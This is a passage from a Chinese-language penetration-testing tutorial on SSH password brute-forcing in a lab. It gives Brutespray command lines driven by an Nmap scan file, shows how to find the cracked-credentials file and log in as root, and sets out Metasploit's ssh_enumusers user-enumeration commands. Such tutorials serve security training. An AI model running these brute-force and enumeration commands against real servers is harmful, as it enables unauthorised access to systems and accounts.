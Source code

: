   前面的命令是默认破解成功一个帐号后，就不再继续暴力破解了,此命令是对所有账号进行暴力破解，其时间稍长。

**（6）使用Nmap扫描生成的nmap.xml进行暴力破解**

```bash
python brutespray.py --file nmap.xml --threads 5 --hosts 5
```

### 5.查看破解结果

Brutespray 这一点做的非常好，默认会在程序目录 `/brutespray-output/` 目录下生成 `ssh-success.txt` 文件，使用 `cat ssh-success.txt` 命令即可查看破解成功的结果，如图12所示。

![12.jpg](https://image.3001.net/images/20180108/15153724519195.jpg!small)  

图12查看破解成功的记录文件

也可以通过命令搜索 `ssh-success` 文件的具体位置：`find / -name ssh-success.txt`

### 6.登录破解服务器

使用 `ssh user@host` 命令登录 `host` 服务器。例如登录 `192.168.17.144`

```bash
ssh root@192.168.17.144 
```

输入密码即可正常登录服务器 `192.168.17.144`

## 六、Msf下利用`ssh_login` 模块进行暴力破解

### 1.msf 下有关 SSH 相关模块

在kali中执行 `msfconsole` - `search ssh` 后会获取相关所有ssh模块，如图13所示。

![13.jpg](https://image.3001.net/images/20180108/15153724703168.jpg!small)  

图13 msf 下所有 SSH 漏洞以及相关利用模块

### 2.SSH相关功能模块分析

**（1）SSH用户枚举**

此模块使用基于时间的攻击枚举用户 `OpenSSH` 服务器。在一些 `OpenSSH` 的一些版本

配置，OpenSSH 会返回一个“没有权限”无效用户的错误比有效用户快。使用命令如下：

```bash
use auxiliary/scanner/ssh/ssh_enumusers
set rhost 191.168.17.147
set USER_FILE  /root/user
run
```

使用info命令可以查看该模块的所有信息，执行效果如图14所示，实测该功能有一些限制，仅仅对OpenSSH某些版本效果比较好。

![14.png](https://image.3001.net/images/20180108/15153724884468.png!small)  
